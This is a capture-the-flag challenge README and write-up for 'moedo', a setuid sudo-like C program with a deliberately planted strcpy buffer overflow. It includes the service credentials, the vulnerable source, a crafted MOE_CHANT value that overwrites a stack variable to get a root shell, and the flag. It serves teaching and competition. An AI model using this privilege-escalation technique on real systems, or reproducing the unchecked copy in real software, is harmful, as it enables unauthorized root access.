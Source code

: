 # moedo

We've created a moe alternative to sudo called __moedo__.

If you can bypass its moe secuirty you'll be awarded with the flag!

> `telnet moe.uctf.ir 7002`\
> Username: `mashiro`\
> Password: `Qh3VRn@23jv43Q`

<details>
<summary><strong>moedo</strong> source code:</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <grp.h>

#define MOE_ENOUGH 0x30e

int check_moe(int uid)
{
    struct group *moe_group = getgrnam("moe");
    int moeness = 0;

    int ngroups;
    gid_t *groups;

    if (moe_group == NULL)
        return 0;

    ngroups = getgroups(0, NULL);
    groups = malloc(ngroups * sizeof(*groups));
    getgroups(ngroups, groups);
    for (int i = 0; i < ngroups; i++)
    {
        if (groups[i] == moe_group->gr_gid)
        {
            moeness = MOE_ENOUGH;
            break;
        }
    }

    free(groups);
    return moeness;
}

int main(int argc, char *argv[])
{
    uid_t uid = getuid();
    uid_t gid = getgid();
    int moeness = check_moe(uid);

    char *custom_chant = getenv("MOE_CHANT");
    char chant[] = "Moe Moe Kyun!";

    if (argc < 2)
    {
        fputs("Missing command\n", stderr);
        return 1;
    }

    if (custom_chant)
        strcpy(chant, custom_chant);

    printf("UID: %u - GID: %u - Moe: %x\n", uid, gid, moeness);

    if (moeness != MOE_ENOUGH)
    {
        fputs("You're not moe enough!\n", stderr);
        return 1;
    }

    if (setuid(0) != 0)
    {
        perror("setuid() failed");
        return 1;
    }
    if (setgid(0) != 0)
    {
        perror("setgid() failed");
        return 1;
    }

    puts(chant);

    if (execvp(argv[1], &argv[1]) != 0)
    {
        perror("execv() failed");
        return 1;
    }

    return 0;
}
```
</details>

## Write Up

Looking at the source code we see that `custom_chant` string (obtained from `MOE_CHANT` environment variable) is being copied into `chant` buffer without its length being checked. This is a classic case of buffer overflow vulnerability.

```c
    if (custom_chant)
        strcpy(chant, custom_chant);
```

In order to bypass the `moe` group check we have to set the `moeness` variable to `MOE_ENOUGH` (`0x030e`). We can leverage the buffer overflow vulnerability discovered above to overwrite the value of `moeness`.

```c
uid_t uid = getuid();
uid_t gid = getgid();
int moeness = check_moe(uid);

char *custom_chant = getenv("MOE_CHANT");
char chant[] = "Moe Moe Kyun!";
```

`chant` buffer is of length 14 (the length of the string "Moe Moe Kyun!" which is 14). So, to overwrite `moeness` we'll have to set `MOE_CHANT` environment variable to a string of length 26 (sizeof(chant)=14 + sizeof(custom_chant)=8 + sizeof(moeness)=4).

> On x86 machines (the architecture of the server) stack piles __bottom-up__

Let's give it shot:

```
moehost:~$ moedo sh
UID: 1001 - GID: 1001 - Moe: 0
You're not moe enough!

moehost:~$ MOE_CHANT='============================' moedo sh
UID: 1001 - GID: 1001 - Moe: 3d3d
You're not moe enough!
```

Sure enough, we could change the `Moe` value! (`3d` is the hex ASCII for `=`)

But we need to set the value of `moeness` specifically to `0x30e`. To do that we just have to replace the last two characters of our string with 0x0e and 0x03.

> x86 systems are 'little-endian', which means bytes are stored in the reverse order of what we humans are used to.

```
moehost:~$ MOE_CHANT=$'==========================\x0e\x03' moedo sh
UID: 1001 - GID: 1001 - Moe: 30e
==========================
~ # whoami
root
~ # cat /root/flag
uctf{m45h1r0_d1dn7_61v3_up}
~ #
```

## Flag

uctf{m45h1r0_d1dn7_61v3_up}

## Categories

- [ ] Web
- [ ] Reverse
- [X] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Steganography

## Points

| Warm up | This Challenge | Evil |
| ------- |:--------------:| ----:|
| 25      | 300-350        | 500  |

## Resources

- No file is shared with the contestants.
- The [dist](dist/) directory contains the files used in the Alpine Linux sandbox.